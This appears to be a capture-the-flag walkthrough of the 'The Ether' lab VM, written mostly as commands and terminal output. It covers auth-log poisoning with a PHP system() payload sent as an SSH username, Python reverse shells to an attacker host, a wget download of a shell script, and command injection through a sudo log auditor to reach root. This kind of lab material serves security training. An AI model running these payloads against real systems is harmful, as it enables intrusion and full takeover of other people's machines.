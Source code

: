 EvilScene

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
To exploit ssh ‘<?php system($_GET[‘C’]);?>’@192.168.1.146
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.105
Host is up (0.00055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
|   256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
|_  256 86:6c:7c:4b:04:7e:57:4f:68:16:a9:74:4c:0d:2f:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: The Ether
MAC Address: 08:00:27:AE:7A:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Testing for Local File Inclusion 
We found that we can access /var/log/auth.log

![Alt Tag]()


To exploit we leverage the auth log

ssh "<?php echo system($_GET[’cmd']);?>"@192.168.56.105

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh "<?php echo system($_GET['cmd']);?>"@192.168.56.105
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
<?php echo system(['cmd']);?>@192.168.56.105: Permission denied (publickey,password).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Reverse shell - Remote Command Execution
![Alt Tag]()


Getting a reverse shell using python:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This is URL encoded and send to the server:

![Alt Tag]()

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50232
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
bash-4.3$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
bash-4.3$ pwd
pwd
/var/www/html/theEther.com/public_html
bash-4.3$ sudo -l
sudo -l
sudo: unable to resolve host theEther: Connection refused
Matching Defaults entries for www-data on theEther:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on theEther:
    (ALL) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py
    (root) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@theEther:/var/www/html/theEther.com/public_html$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py
<tml$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py                  
--2019-10-20 01:29:11--  http://192.168.56.102:8787/log.py
Connecting to 192.168.56.102:8787... connected.
HTTP request sent, awaiting response... 200 OK
Length: 243 [text/plain]
Saving to: '/tmp/log.py'

/tmp/log.py         100%[===================>]     243  --.-KB/s    in 0s      

2019-10-20 01:29:11 (59.2 MB/s) - '/tmp/log.py' saved [243/243]

$ cat /tmp/log.py
#!/usr/bin/python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.102",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
ssp=subprocess.call(["/bin/sh","-i"]);




www-data@theEther:/var/www/html/theEther.com/public_html$ chmod +x /tmp/log.py
<html/theEther.com/public_html$ chmod +x /tmp/log.py                         
www-data@theEther:/var/www/html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py
<html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py                   
sudo: unable to resolve host theEther: Connection refused
===============================
Log Auditor
===============================
Logs available
-------------------------------
/var/log/auth.log
/var/log/apache2/access.log
-------------------------------

Load which log?: /var/log/auth.log | /tmp/log.py
/var/log/auth.log | /tmp/log.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Root Shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50976
# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



